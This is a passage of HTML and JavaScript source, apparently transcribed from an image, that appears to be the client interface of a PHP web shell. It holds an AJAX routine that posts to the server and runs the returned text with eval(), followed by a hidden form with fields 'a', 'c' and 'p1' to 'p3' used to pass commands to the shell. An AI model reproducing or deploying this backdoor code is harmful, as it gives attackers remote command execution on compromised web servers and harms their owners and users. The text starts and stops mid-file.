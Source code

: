 		}
		function sr(url, params) {
			if (window.XMLHttpRequest)
				req = new XMLHttpRequest();
			else if (window.ActiveXObject)
				req = new ActiveXObject('Microsoft.XMLHTTP');
	        if (req) {
	            req.onreadystatechange = processReqChange;
	            req.open('POST', url, true);
	            req.setRequestHeader ('Content-Type', 'application/x-www-form-urlencoded');
	            req.send(params);
	        }
		}
		function processReqChange() {
			if( (req.readyState == 4) )
				if(req.status == 200) {
					var reg = new RegExp("(\\d+)([\\S\\s]*)", 'm');
					var arr=reg.exec(req.responseText);
					eval(arr[2].substr(0, arr[1]));
				} else alert('Request error!');
		}
	</script>
	<head><body><div style='position:absolute;background-color:rgba(95, 110, 130, 0.3);width:100%;top:0;left:0;'>
	<form method=post name=mf style='display:none;'>
	<input type=hidden name=a>
	<input type=hidden name=c>
	<input type=hidden name=p1>
	<input type=hidden name=p2>
	<input type=hidden name=p3>
	<input type=hidden name=charset>